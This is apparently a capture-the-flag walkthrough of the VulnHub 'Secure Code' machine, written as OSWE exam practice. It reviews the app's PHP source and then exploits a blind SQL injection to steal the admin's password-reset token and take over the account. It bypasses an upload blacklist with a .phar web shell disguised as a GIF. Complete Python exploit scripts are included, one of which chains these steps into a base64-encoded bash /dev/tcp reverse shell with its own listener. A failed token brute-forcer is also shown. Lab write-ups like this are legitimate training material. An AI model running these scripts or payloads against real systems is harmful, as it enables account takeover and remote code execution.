

Secure Code is a OSWE-like machine from VulnHub. I will try to explore this box in order to prepare myself to the OSWE exam.

I enjoyed this box a lot because it really trained me for OSWE, we got a sqlinjection (blind) which we can get the admin token and change the password, and a file upload vulnerability to get the reverse shell!

# Diagram



# Enumeration

Let's get the box ip with `arp-scan`

```sh
arp-scan -I eth1 192.168.56.100/24
```


First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 192.168.56.152
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


Just a normal page

We see the robots.txt in the nmap enum, let's open it to see what we can get


We access the login page


Ok, got a login page. Let's enum a little bit more before go deeper in it

### Gobuster

Let's start crafting a little more on the box to see if we can enum more things do explore. I use zip, because I know that possible we will need to get the source code from anywhere.

```sh
gobuster dir -t 100 -u http://192.168.56.152 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,zip
```


We found a bunch of directories in it. Fine. All of them we must be logged in to access. So, let's go deeper in the login tab now

And we found the source_code.zip, let's download it to analyse

```sh
wget http://192.168.56.152/source_code.zip
```


Before analyse the code, let's understand how the web app works.

## /login

Opening it on the browser we got redirected to `/login/login.php`

It's a normal login page. We see a button to `Forgot Password?` which redirects to resetPassword.php


Knowing it, we can do another gobuster, just to see if we got more php files

```sh
gobuster dir -t 100 -u http://192.168.56.152/login -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```


Just the ones we already know.

Let's try to see what we can do with the login form

### /login/login.php

We send an invalid user and password


We see in burp it makes a request to `checkLogin.php` and redirect to the login page, because the user/pass is incorrect


We try to bruteforce it with a valid list of auth bypass


```sh
wfuzz -z file,list.txt -d "username=adminFUZZ&password=admin" --hc 302 http://192.168.56.152/login/checkLogin.php
```


No sucess.

### /login/resetPassword.php

We click on the resetpassword function and it send to a panel to make it


We try an invalid username


Now found.

We try a valid username


Ok, we see that an email was send to the admin. So, we have how to enumerate users in this box.

Lets go to the code analysis now

# Code Analysis

We extract the zip file


And open it in VSCODE to better read it

We se it's structure


Let's begin our enumeration.

## /login

We will start from the login perspective, to understand how the login functions are working. Because our first goal is to bypass the authentication mechanism

In login folder we see seven php files


Ok, let's start for the `index.php`


Nothing useful

`logout.php`


Just destroy the session

`login.php`


Just get the parameters.

Let's see the `checklogin.php`


```php
<?php 
session_start();
include '../include/connection.php';
$username = mysqli_real_escape_string($conn, $_POST['username']);
$password = md5($_POST['password']);

$login = mysqli_query($conn,"SELECT * FROM user WHERE username='$username' AND password='$password'");
$check = mysqli_num_rows($login);

if($check > 0){
	$data = mysqli_fetch_assoc($login);

	if($data['id_level']==1){
        $_SESSION['id'] = $data['id'];
		$_SESSION['username'] = $username;
		$_SESSION['id_level'] = 1;
		$_SESSION['status']=" Log-in";
		header("location: ../users/index.php");
		die();
	}else if($data['id_level']==2){
		$_SESSION['id'] = $data['id'];
		$_SESSION['username'] = $username;
		$_SESSION['id_level'] = 2;
		$_SESSION['status']=" Log-in";
		header("location: ../item/index.php");
		die();
	}else{
		echo "ID level not found";
    }
}else{
	$_SESSION['danger']=" Username/Password is not correct";
	header("Location: login.php");
}
?>
```

It includes some php files to make the db connection. We see that it escape properly the username parameter, that's why we did not success in bypass it, and the password is md5 hashed.

It tests for the id level of the user, if the id is 1 it redirects to the /users/index.php page, if the id is 2, redirects to the /item/index.php. If the id is different, just show ID level not found.

`resetPassword.php` is really interesting


```php
<?php

include "../include/header.php";
$username = mysqli_real_escape_string($conn, @$_POST['username']);

if(isset($username) and ctype_alnum($username)){

    $data = mysqli_query($conn, "SELECT * FROM user");
    $users = [];
    while($result= mysqli_fetch_array($data)){
        array_push($users, $result['username']);
    }

    if(in_array($username, $users)){

        $token = generateToken();
        mysqli_query($conn,"UPDATE user SET token = '$token' WHERE username = '$username'");
        send_email($username, $token);
        $_SESSION['status']=" Password Reset Link has been sent to you via Email, please check it out.";    
        header("location: login.php");
        die();

    }else{

        $_SESSION['danger']=" Username not found.";
        header("location: resetPassword.php");
        die();

    }

}else{

?>
```

The first lines we see it just escaping the username for sqlinjection, and then the intersting part, it generate the token! On the end of the script we can see the generation form and we can predict it


```php
<?php }


function generateToken(){
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $charactersLength = strlen($characters);
    $randomString = '';
    for ($i = 0; $i < 15; $i++) {
        $randomString .= $characters[rand(0, $charactersLength - 1)];
    }
    return $randomString;
}

function send_email($username, $token){
    
    $message = "Hello ".htmlentities($username).",\n";
    $message .= "Please follow the link below to reset your password: \n";
    $message .= "http://".gethostname()."/doResetPassword.php?token=$token \n";
    $message .= "Thanks.\n";

    // get user email
    $data = mysqli_query($conn, "SELECT * FROM user WHERE username='$username'");
    while($result= mysqli_fetch_array($data)){
        $email = $result['email'];
    }
    @mail($email, "Reset Your Password", $message);

}

?>
```

It's just getting random chars from a list and generating it!

And we see where we can use the token

```php
$message .= "http://".gethostname()."/doResetPassword.php?token=$token \n";
```

Now, let's see the `doResetPassword.php`


```php
<?php

include "../include/header.php";

$p_token = $_GET['token'];

$data = mysqli_query($conn, "SELECT * FROM user");
$tokens = [];
while($result = mysqli_fetch_array($data)){
    array_push($tokens, $result['token']);
}

if(ctype_alnum($p_token) AND in_array($p_token, $tokens)){

?>
```

It checks the token provided with the one in the db. If matches prompt the change password page, we can validade it with the text **Valid Token Provided** in the response page!

Let's just see the `doChangePassword.php` before try to predict the admin token


```php
<?php

include "../include/header.php";

$p_token = mysqli_real_escape_string($conn, $_REQUEST['token']);
$password = mysqli_real_escape_string($conn, $_REQUEST['password']);

if(isset($p_token, $password) and ctype_alnum($p_token) and $password !== ''){

    $data = mysqli_query($conn, "SELECT * FROM user");
    $tokens = [];
    while($result = mysqli_fetch_array($data)){

        array_push($tokens, $result['token']);

    }

    if(in_array($p_token, $tokens)){

        $hash = md5($password);
        $x = mysqli_query($conn, "UPDATE user SET password = '$hash' WHERE token = '$p_token'");
        $y = mysqli_query($conn, "UPDATE user SET token = '' WHERE token = '$p_token'");

        if($x and $y){
            $_SESSION['status']=" Password Changed";
        }else{
            $_SESSION['danger']=" Failed to change password";
        }
        
        header("Location: login.php");
        die();

    }else{

        $_SESSION['danger'] = " Invalid password reset link.";
        header("Location: ../login/resetPassword.php");
        die();

    }

}else{

    $_SESSION['danger'] = " Invalid Token Provided.";
    header("Location: login.php");

}

?>
```

Just get the token and the password, and change it.

We could try to predict Token Admin...

So, once we already know how the tokens are being generated, let's predict it and try to change the admin password

Its's a good approach but in this case it's not going to be a good idea, just because the number of possibilites will be pretty huge, almost impossible to match the valid token with a generated on the wordlist

```sh
crunch 15 15 0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPRSTUVWZXY -o list_spray.txt
```

We can see with crunch the huge number of possibilities


We finish the code analysis of the /login folder, now let's see what we can do on the item folder

## /item

We open the folder to see what we can do


Let's start from the `addItem.php` file

Just import some php files but nothing very useful for now


`destroy.php`


```php
<?php 

include "../include/header.php";
include "../include/isAuthenticated.php";

$id = mysqli_real_escape_string($conn, $_GET['id']);

$res = mysqli_query($conn, "DELETE FROM item WHERE id='$id'");

if($res){
    $_SESSION['status']="Item has been removed";
}else{
    $_SESSION['danger']="Failed to Deleted Item";
}
header("location: index.php");

?>
```

It test again to see if the page is authenticated and then escape the param id, for sqlinjecton. Them delete the id item

`editItem.php`


```php
<?php
include "../include/header.php";
include "../include/isAuthenticated.php";
    
$id = mysqli_real_escape_string($conn, $_GET['id']);
$data = mysqli_query($conn, "SELECT * FROM item WHERE id='$id'");
$result = mysqli_fetch_array($data);
?>
```

Here, again we see that it checks the authentication. Them escape the id param, preventing it for sqlinjection, chan change it on the database.

`index.php`


```php
<?php
include "../include/header.php";
include "../include/isAuthenticated.php";
?>
```

Just verify if it is being authenticated.

`newItem.php`


```php
<?php 

include "../include/header.php";
include "../include/isAuthenticated.php";

$id_user = mysqli_real_escape_string($conn, $_POST['id_user']);
$name = mysqli_real_escape_string($conn, $_POST['name']);
$imgname = mysqli_real_escape_string($conn, $_FILES['image']['name']);
$description = mysqli_real_escape_string($conn, $_POST['description']);
$price = mysqli_real_escape_string($conn, $_POST['price']);

$blacklisted_exts = array("php", "phtml", "shtml", "cgi", "pl", "php3", "php4", "php5", "php6");
$mimes = array("image/jpeg", "image/png", "image/gif");

if(isset($id_user, $name, $imgname, $description, $price)){

    $ext = strtolower(pathinfo($_FILES['image']['name'])['extension']);
    $mime = mime_content_type($_FILES['image']['tmp_name']);
    if(!in_array($ext, $blacklisted_exts) AND in_array($mime, $mimes)){

        $up = move_uploaded_file($_FILES['image']['tmp_name'], "image/".$_FILES['image']['name']);
        $res = mysqli_query($conn,"INSERT INTO item VALUES('','$id_user','$name','$description','$imgname','$price')");
        if($res == true AND $up == true){
            $_SESSION['status'] = " Item data has been Added";
        }else{
            $_SESSION['danger'] = " Failed to add Item";
        }
        header("Location: index.php");

    }else{
        $_SESSION['danger'] = " This file is not allowed.";
        header("Location: index.php");
    }

}else{
    $_SESSION['danger'] = " Some Fields are missing.";
    header("Location: index.php");
}
?>
```

Here we see some interesting things, possibly we can upload files in the server after authenticated, which is very good for us. First it checks if the user is authenticated, then allow you to upload files.

`updateItem.php`


```php
<?php 

include "../include/header.php";
include "../include/isAuthenticated.php";

$id = mysqli_real_escape_string($conn, $_POST['id']);
$id_user = mysqli_real_escape_string($conn, $_POST['id_user']);
$name = mysqli_real_escape_string($conn, $_POST['name']);
$imgname = mysqli_real_escape_string($conn, $_FILES['image']['name']);
$description = mysqli_real_escape_string($conn, $_POST['description']);
$price = mysqli_real_escape_string($conn, $_POST['price']);

$blacklisted_exts = array("php", "phtml", "shtml", "cgi", "pl", "php3", "php4", "php5", "php6");

if(isset($id, $id_user, $name, $imgname, $description, $price)){

    $ext = strtolower(pathinfo($imgname)['extension']);
    if(!in_array($ext, $blacklisted_exts)){

        $up = move_uploaded_file($_FILES['image']['tmp_name'], "image/".$imgname);
        $res = mysqli_query($conn, "UPDATE item SET name='$name', imgname='$imgname', description='$description',price='$price' WHERE id='$id'");
        if($res == true AND $up == true){
            $_SESSION['status']=" Item data has been edited";
        }else{
            $_SESSION['danger']=" Failed to edit Item";
        }
        header("Location: index.php");
        die();
    
    }else{
        $_SESSION['danger']=" File is not accepted.";
        header("Location: index.php");
        die();
    }

}else{
    $_SESSION['danger']=" Some Fields are missing.";
    header("Location: index.php");
}

?>
```

Here, it checks if the user is authenticated, then allow you to make changes on the uploaded file.

`viewItem.php`


```php
<?php

// Still under development
session_start();
ini_set("display_errors", 0);
include "../include/connection.php";

// see if user is authenticated, if not then redirect to login page
if($_SESSION['id_level'] != 1){

    $_SESSION['danger'] = " You not have access to visit that page";
    header("Location: ../login/login.php");

}
// only for users with level 1 (admins)
// prevent SQL injection
$id = mysqli_real_escape_string($conn, $_GET['id']);
$data = mysqli_query($conn, "SELECT * FROM item WHERE id = $id");
$result = mysqli_fetch_array($data);

//var_dump($result);
if(isset($result['id'])){
    http_response_code(404);
}


?>
```

This one is the most interesting, first it does not checks the authentication with the include php file, so we can access it with public access! The only check it matches is the id_level, which must be one, possible admin. Other thing the id get param is being sanitized with the `mysqli_real_escape_string`, let's check what it's doing with our id

[PHP Official Page](https://www.php.net/manual/en/mysqli.real-escape-string.php)


So, it's just cleaning the normal chars used for sqlinjection. We probably could access it by a non authenticated user and abuse this get param.

# SQLInjection

After finish the code analysis of the login and the item folders, let's recapitule what we get.

One Token generation for reset password, we can predict it but it's almost impossible to match the value. We got a possibly sqlinjection on viewitem.php, which we will explore now!

If we try to send a id value (which probably does not exist on the database), it'll redirect us to the login page

`/item/viewItem.php?id=15`

302 Found


`/item/viewItem.php?id=15+or+1=1`

404 Not Found


`/item/viewItem.php?id=15+or+1=2`

302 Found


What it means?

The error 302, in the id=15, show us that we are not authenticated, as expected on the code.

The error 404, test the id number and the 1=1, and when it get's 1=1 as true, because it's always true, it let me reache the code I want to reach

```php
//var_dump($result);
if(isset($result['id'])){
    http_response_code(404);
}
```

So we can extract information here! It's a sqlinjection

Possibly a Time-Based, we try to send a sleep(1) and it worked


It's Union Based also, we can confirm getting the database name, we already know that it is `hackshop`


104 in ascii is h lowercase, so

```
1 and ascii(substr(database(),1,1)) = 104 -- -
```


We got it! Now we will build a python script to get the token, change the password, login and get the flag 01

Here it is


sqli_auto.py

```py
#!/usr/bin/python3
# Auto SQLINJection - Extract token change pass - change pass - login and get the flag 01
# Author: 0x4rt3mis
# Secure Code - VulnHub

import argparse
import requests
import sys
import os
import string

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Let's send the admin token
def sendToken(rhost,user_id):
    if user_id == "1":
        print("[+] Just generate the admin token ! [+]")
        url = "http://%s:80/login/resetPassword.php" %rhost
        headers = {"Content-Type": "application/x-www-form-urlencoded"}
        data = {"username": "admin"}
        r.post(url, headers=headers, data=data, proxies=proxies)
        print("[+] Done ! [+]")
    else:
        print("[+] I don't know the username from the user_id = %s !!!!! Change it in the code, if you know [+]" %user_id)
        sys.exit()

# Function to auto Blind-SQLInjection
def valueExtract(rhost,user_id):
    url_ori = "http://%s" %rhost + "/item/viewItem.php?id=1+"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = []
    token_password = []
    list_number = list(range(1, 151))
    limit = 1
    iterator = 1
    print("[+] The token for username with the user id %s is... [+]" %user_id)
    while(iterator < len(list_number)):
        for c in [list_number[iterator]]:
            payload = "and+ascii(substr((select+token+from+user+where+id+=+%s),%s,1))+=+%s+--+-" %(user_id,limit,c)
            url = url_ori + payload
            res = r.get(url, proxies=proxies, headers=headers, allow_redirects=False)
            if res.status_code == 404:
                c = chr(c)
                password.append(c)
                token_password.append(c)
                limit += 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
                password = []
                url = url_ori
    print()
    global token_change
    token_change = ''.join(token_password)
    print("[+] Got the token for the user id %s = %s !! [+]" %(user_id,token_change))

# Function to change the password
def changePassword(rhost,token_change):
    print("[+] Let's change the password now !! [+]")
    url = "http://%s:80/login/doChangePassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"token": "%s" %token_change, "password": "0x4rt3mis"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Password Changed !!! [+]")
    
# Function to login in the web app
def loginApp(rhost):
    print("[+] Let's Login as Admin !! [+]")
    url = "http://%s:80/login/checkLogin.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin", "password": "0x4rt3mis"}
    login_page = r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Logged In !!! Let's catch the flag one !! [+]")
    index = login_page.text.find("FLAG1")
    flag = login_page.text[index:index+60].split(':')[1]
    flag = flag.split(' ')[1]
    print("[+] The Flag 01 is: %s [+]" %flag)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-uid', '--username', help='User Id to be extracted', required=True)
    args = parser.parse_args()

    rhost = args.target
    user_id = args.username

    '''Here we call the functions'''
    # Send the token to the email
    sendToken(rhost,user_id)
    # Extract the admin token
    valueExtract(rhost,user_id)
    # Change password
    changePassword(rhost,token_change)
    # Login and get the flag1
    loginApp(rhost)

if __name__ == '__main__':
    main()
```

Let's continue now, once we are logged in

# Admin Interface

When we log as admin, we see different options for us

## /user

Is where we can change user options


EDIT -> /users/edit.php?id=1 - possibly changes the options for this user

DELET -> /users/destroy.php?id=1 - possibly delete the user from the database

Add New User -> /user/add.php - add a new user

Check Item -> /item/index.php - refresh the page

Let's see what we have on the `edit.php` code


```php
<?php
include "../include/header.php";    
include "../include/isAuthenticated.php";
$data = mysqli_query($conn, "SELECT * FROM user where id='$sid'");
$result = mysqli_fetch_array($data);
?>
```

Checks to see if the user is authenticated and change the infromation from it.

`destroy.php`


```php
<?php 

include "../include/header.php";
include "../include/isAuthenticated.php";
$id = mysqli_real_escape_string($conn, $_GET['id']);

$res = mysqli_query($conn,"DELETE FROM user WHERE id='$id'");
if($res){
    $_SESSION['status']="Employee has been removed";
}else{
    $_SESSION['danger']="Failed to remove Employee";
}
header("location: index.php");

?>
```

Escape the userid string and detroy the user in database

**Add New User**


```php
<?php
include "../include/header.php";
include "../include/isAuthenticated.php";
$data = mysqli_query($conn, "SELECT * FROM level");
?>
```

Add a new user

Ok, here seems that we don't have explict vulnerabilites to get RCE

## /items


Items tab is a little more interesting


We have tree bottoms for this tab

EDIT -> /item/editItem.php -> Edit information about the item

DELETE -> /item/destroy.php -> Delete from database the item

Add New Item -> /item/addItem.php -> Add new item for the database

Let's start with the `editItem.php`


Seems that we have a place to upload files, which is very interesting for us


```php
<?php
include "../include/header.php";
include "../include/isAuthenticated.php";
    
$id = mysqli_real_escape_string($conn, $_GET['id']);
$data = mysqli_query($conn, "SELECT * FROM item WHERE id='$id'");
$result = mysqli_fetch_array($data);
?>
```

Checks the authentication and query all the informations for the item specified

`destroy.php`

Delete the item

```php
<?php 

include "../include/header.php";
include "../include/isAuthenticated.php";

$id = mysqli_real_escape_string($conn, $_GET['id']);

$res = mysqli_query($conn, "DELETE FROM item WHERE id='$id'");

if($res){
    $_SESSION['status']="Item has been removed";
}else{
    $_SESSION['danger']="Failed to Deleted Item";
}
header("location: index.php");

?>
```

`newItem.php`

This one is pretty interesting, because it's possible where we will get into the box


```php
<?php 

include "../include/header.php";
include "../include/isAuthenticated.php";

$id_user = mysqli_real_escape_string($conn, $_POST['id_user']);
$name = mysqli_real_escape_string($conn, $_POST['name']);
$imgname = mysqli_real_escape_string($conn, $_FILES['image']['name']);
$description = mysqli_real_escape_string($conn, $_POST['description']);
$price = mysqli_real_escape_string($conn, $_POST['price']);

$blacklisted_exts = array("php", "phtml", "shtml", "cgi", "pl", "php3", "php4", "php5", "php6");
$mimes = array("image/jpeg", "image/png", "image/gif");

if(isset($id_user, $name, $imgname, $description, $price)){

    $ext = strtolower(pathinfo($_FILES['image']['name'])['extension']);
    $mime = mime_content_type($_FILES['image']['tmp_name']);
    if(!in_array($ext, $blacklisted_exts) AND in_array($mime, $mimes)){

        $up = move_uploaded_file($_FILES['image']['tmp_name'], "image/".$_FILES['image']['name']);
        $res = mysqli_query($conn,"INSERT INTO item VALUES('','$id_user','$name','$description','$imgname','$price')");
        if($res == true AND $up == true){
            $_SESSION['status'] = " Item data has been Added";
        }else{
            $_SESSION['danger'] = " Failed to add Item";
        }
        header("Location: index.php");

    }else{
        $_SESSION['danger'] = " This file is not allowed.";
        header("Location: index.php");
    }

}else{
    $_SESSION['danger'] = " Some Fields are missing.";
    header("Location: index.php");
}
?>
```

We have a blackistled extensios, if we bypass it the file will be uploaded.

The file is going to be placed in the images folder. `$up = move_uploaded_file($_FILES['image']['tmp_name'], "image/".$_FILES['image']['name']);`, so we can try it now!

We can try the same function we used before, we try a normal upload to see how it works


We got error.

We can try to change one of the items


Success!

We see that we get in the `updateItem.php`


```php
<?php 

include "../include/header.php";
include "../include/isAuthenticated.php";

$id = mysqli_real_escape_string($conn, $_POST['id']);
$id_user = mysqli_real_escape_string($conn, $_POST['id_user']);
$name = mysqli_real_escape_string($conn, $_POST['name']);
$imgname = mysqli_real_escape_string($conn, $_FILES['image']['name']);
$description = mysqli_real_escape_string($conn, $_POST['description']);
$price = mysqli_real_escape_string($conn, $_POST['price']);

$blacklisted_exts = array("php", "phtml", "shtml", "cgi", "pl", "php3", "php4", "php5", "php6");

if(isset($id, $id_user, $name, $imgname, $description, $price)){

    $ext = strtolower(pathinfo($imgname)['extension']);
    if(!in_array($ext, $blacklisted_exts)){

        $up = move_uploaded_file($_FILES['image']['tmp_name'], "image/".$imgname);
        $res = mysqli_query($conn, "UPDATE item SET name='$name', imgname='$imgname', description='$description',price='$price' WHERE id='$id'");
        if($res == true AND $up == true){
            $_SESSION['status']=" Item data has been edited";
        }else{
            $_SESSION['danger']=" Failed to edit Item";
        }
        header("Location: index.php");
        die();
    
    }else{
        $_SESSION['danger']=" File is not accepted.";
        header("Location: index.php");
        die();
    }

}else{
    $_SESSION['danger']=" Some Fields are missing.";
    header("Location: index.php");
}

?>
```

The logic is the same. Here we got the reverse shell

# Reverse Shell


sqli_auto.py

```py
#!/usr/bin/python3
# Auto SQLINJection - Extract token change pass - change pass - login and get the flag 01 - upload file - reverse shell
# Author: 0x4rt3mis
# Secure Code - VulnHub

import argparse
import requests
import sys
import os
import string
import base64
import urllib.parse
import socket, telnetlib
from threading import Thread

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Let's send the admin token
def sendToken(rhost,user_id):
    if user_id == "1":
        print("[+] Just generate the admin token ! [+]")
        url = "http://%s:80/login/resetPassword.php" %rhost
        headers = {"Content-Type": "application/x-www-form-urlencoded"}
        data = {"username": "admin"}
        r.post(url, headers=headers, data=data, proxies=proxies)
        print("[+] Done ! [+]")
    else:
        print("[+] I don't know the username from the user_id = %s !!!!! Change it in the code, if you know [+]" %user_id)
        sys.exit()

# Function to auto Blind-SQLInjection
def valueExtract(rhost,user_id):
    url_ori = "http://%s" %rhost + "/item/viewItem.php?id=1+"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = []
    token_password = []
    list_number = list(range(1, 151))
    limit = 1
    iterator = 1
    print("[+] The token for username with the user id %s is... [+]" %user_id)
    while(iterator < len(list_number)):
        for c in [list_number[iterator]]:
            payload = "and+ascii(substr((select+token+from+user+where+id+=+%s),%s,1))+=+%s+--+-" %(user_id,limit,c)
            url = url_ori + payload
            res = r.get(url, proxies=proxies, headers=headers, allow_redirects=False)
            if res.status_code == 404:
                c = chr(c)
                password.append(c)
                token_password.append(c)
                limit += 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
                password = []
                url = url_ori
    print()
    global token_change
    token_change = ''.join(token_password)
    print("[+] Got the token for the user id %s = %s !! [+]" %(user_id,token_change))

# Function to change the password
def changePassword(rhost,token_change):
    print("[+] Let's change the password now !! [+]")
    url = "http://%s:80/login/doChangePassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"token": "%s" %token_change, "password": "0x4rt3mis"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Password Changed !!! [+]")
    
# Function to login in the web app
def loginApp(rhost):
    print("[+] Let's Login as Admin !! [+]")
    url = "http://%s:80/login/checkLogin.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin", "password": "0x4rt3mis"}
    login_page = r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Logged In !!! Let's catch the flag one !! [+]")
    index = login_page.text.find("FLAG1")
    flag = login_page.text[index:index+60].split(':')[1]
    flag = flag.split(' ')[1]
    print("[+] The Flag 01 is: %s [+]" %flag)

# Upload Malicious with magic hex changed
def maliciousUpload(rhost):
    url = "http://%s/item/updateItem.php" %rhost
    data = 'GIF98a;<?php system($_REQUEST[\"cmd\"]); ?>'
    multipart_data = {
        'id' : (None,"1"),
        'id_user' : (None,"1"),
        'name' : (None,"Raspberry Pi 4"),
        'image': ('0x4rt3mis.phar', data, "image/gif"),
        'description' : (None,"Just Random Text"),
        'price' : (None,"92")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)
    
# Get reeeeeverserereerre shelllll
def getReverse(rhost,lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "http://%s:80/item/image/0x4rt3mis.phar?" %rhost
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-uid', '--username', help='User Id to be extracted', required=True)
    parser.add_argument('-li', '--localhost', help='Local Host', required=True)
    parser.add_argument('-lp', '--localport', help='Local Port', required=True)
    args = parser.parse_args()

    rhost = args.target
    user_id = args.username
    lhost = args.localhost
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Send the token to the email
    sendToken(rhost,user_id)
    # Extract the admin token
    valueExtract(rhost,user_id)
    # Change password
    changePassword(rhost,token_change)
    # Login and get the flag1
    loginApp(rhost)
    # Upload malicious php
    maliciousUpload(rhost)
    # Get Reverse Shell
    getReverse(rhost,lhost,lport)

if __name__ == '__main__':
    main()
```

# Extra

We did a script to bruteforce the admin token, it was not success obviosly because the lenght of the wordlist, but was a good practice

Here we got the script

predict_token.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Predict Admin Token - Failed
# SecureCode - VulnHub

import argparse
import requests
import sys
import os

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Mount the php function to predict it
def mountPredictLogic():
    print("[+] Let's generate the token list, may be take a good time, be patient ! [+]")
    payload = "<?php\n"
    payload += "function generateToken(){\n"
    payload += "    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';\n"
    payload += "    $charactersLength = strlen($characters);\n"
    payload += "    $randomString = '';\n"
    payload += "    for ($i = 0; $i < 15; $i++) {\n"
    payload += "        $randomString .= $characters[rand(0, $charactersLength - 1)];\n"
    payload += "    }\n"
    payload += "    return $randomString;\n"
    payload += "}\n"
    payload += "\n"
    payload += "echo(generateToken());\n"
    payload += "echo \"\\n\"\n"
    payload += "\n"
    payload += "?>\n"
    f = open("generator.php", "w")
    f.write(payload)
    f.close()
    # Let's make the list
    number = 0
    while number < 100000:
        os.system("php generator.php >> token_list.txt")
        number = number+1
    print("[+] Done ! [+]")

# Let's send the admin token
def sendToken(rhost):
    print("[+] Just generate the admin token ! [+]")
    url = "http://%s:80/login/resetPassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Done ! [+]")
    
# Let's spray the token
def sprayToken(rhost):
    print("[+] Let's spray ! [+]")
    url_orig = "http://%s:80/login/doResetPassword.php" %rhost
    headers = {"Upgrade-Insecure-Requests": "1"}
    f = open("token_list.txt", "r")
    values = f.readlines()
    for token_value in values:
        token_value = token_value.rstrip()
        url = url_orig + "?token=%s" %token_value
        res = r.get(url, headers=headers, cookies=r.cookies, proxies=proxies, allow_redirects=True)    
        if "Invalid password reset link"not in res.text:
            print("[+] Token Used: %s ! [+]" %token_value) 
            break
        else:
            url = url_orig
            continue

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target

    '''Here we call the functions'''
    # Generate the list predict
    mountPredictLogic()
    # Send the token to the admin
    sendToken(rhost)
    # Brute Force the token
    sprayToken(rhost)
    

if __name__ == '__main__':
    main()
```

